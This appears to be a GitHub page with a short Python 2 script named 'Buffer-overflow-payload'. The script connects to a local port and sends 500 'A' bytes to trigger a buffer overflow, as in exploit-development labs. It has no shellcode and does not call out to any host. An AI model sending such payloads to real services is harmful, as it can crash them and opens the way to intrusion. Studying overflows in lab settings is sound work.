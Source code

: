 # Buffer-overflow-payload

 #!/usr/bin/python
import socket
import sys


host = "127.0.0.1"
port = int(sys.argv[1])

sock = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
sock.connect((host , port))

buffer = "A" * 500

print "Sending Payload!"

sock.send(buffer)

print "Payload sent: " + buffer

sock.close()
